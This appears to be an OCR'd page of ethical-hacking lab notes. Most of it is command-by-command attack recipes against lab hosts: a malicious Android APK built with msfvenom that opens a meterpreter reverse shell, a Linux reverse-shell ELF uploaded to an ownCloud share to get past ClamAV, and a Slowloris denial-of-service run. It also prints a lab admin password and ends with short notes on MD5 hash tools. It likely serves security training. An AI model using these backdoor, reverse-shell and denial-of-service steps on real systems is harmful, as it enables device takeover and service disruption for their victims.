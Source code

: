 **Generate Payload**

- ***msfvenom -p android/meterpreter/reverse\_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk*** | R raw
- Host the payload and run a listener on Kali
- Type ***use exploit/multi/handler***.
- Type ***set payload android/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit -j -z***
- Browse link of file to start meterpreter session.

**Exploit Execute**

- Open kali hosted link. Download APK using es file downloader. Install and run.




                                                                    *CLOUD COMPUTING*


**Using owncloud**

- Hosted at ubuntu machine <http://10.10.10.9/owncloud>. admin:qwerty@123
- Create users and share files to users.
- Install Desktop client and share and view files

**ClamAV Protection of cloud**

Cloud is currently protected by ClamAV so no malicious file is uploaded. **Bypassing ClamAV**

- ***msfvenom -p linux/x86/shell/reverse\_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf*** | generate a linux based executable
- Type **use multi/handler**
- Type **set payload linux/x86/shell/reverse\_tcp**
- Type **set LHOST 10.10.10.11**
- Type **set LPORT 4444**
- Type **run**
- Upload payload in shared folder.
- Download using admin, Set permission to **chmod -R 755 exploit.elf**
- Execute exploit **./exploit.elf**

**DOS Attack using Slowloris.pl script**

- Open Slowloris folder 
- Run ***chmod 777 Slowloris.pl***
- Execute script ***./solaris.pl** **-dns 10.10.10.9***
- DOS attack successful




                                                                          *CRYPTOGRAPHY*


**HASHCALC**

Easy to use GUI based. Supports text and files

**MD5 CALCULATOR**

Easy to use, integrates with explorer right click. Right Click any file and select MD5 Calculator to calculate its MD5 Hash.
